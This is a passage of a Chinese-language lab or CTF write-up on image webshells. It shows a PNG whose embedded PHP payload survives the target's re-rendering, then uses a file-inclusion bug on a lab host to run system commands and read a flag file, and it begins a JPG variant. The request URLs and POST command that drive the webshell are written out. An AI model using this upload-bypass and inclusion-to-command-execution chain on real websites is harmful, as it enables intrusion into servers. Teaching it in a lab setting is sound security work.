   
直接运行生成会在脚本目录下生成 shell.png 图片，下面是生成好的 图片：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDl0h6Hn8pT7StfQp7lCJPI81gT3IO06CFlHpY7pvpr1iacNjdP0FVcNQ/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
其内容如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDibpBEK3XCBVaFQ9rKTnCRuHbg4Y6FaKBJMIMjjuiaAyicFMpUq2Fk1IFg/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
然后上传到目标网站上面渲染一下再导出：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDkiaPnNo5icdXKAEssBSAcnml2pKzGLwEibxYjff1XLicznpHBNCkN40MGQ/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
查看一下里面的 payload 是否还存在：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDPicV9bdEWS3TeAibSVh4xAI3q7Wn52iaXo4ic3oU6zeMc49VFmYAeAZ7Jg/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
依然存在的，成功绕过渲染 ，这里顺便提一下这个 shell 的使用方法，下面就不再补充了。  
  
首先获取图片的上传地址为：  
  
  
```
http://vul.xps.com:30010/upload/357481464.png
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDv3IBjo3uvmJg4NNS9VlSehWrVicWCguRR8A9TFpPr6sicpE9gJUc67wA/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
利用网站本身的文件包含漏洞，尝试直接包含这个图马 ：  
  
  
```
http://vul.xps.com:30010/?file=./upload/357481464.png
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDGfjyEdic4ZaK4RECCnzjyxY2IegyBal0BfibT4ERoEia7g0UmAaQR633Q/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
貌似成功了，执行命令看看：  
  
  
CODE  
  
```
http://vul.xps.com:30010/?0=system&file=./upload/357481464.png
```  
  
POST 内容如下：  
  
BASH  
```
1=cat /f14a4a4a4a444g
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDA3nsFs0OwqQNERbJMBnRkbpLCFjq6YKyibPPIkjCMfvy7AC46gL27NA/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## JPG  
  
JPG 也需要使用脚本将数据插入到特定的数据库，而且可能会不成功，所以需要多次尝试。  
  
这个脚本 Github 搜索一下很多项目都有这个脚本，这里国光就随便搜索拿了搜索结果第一个的项目放在本文中。  
  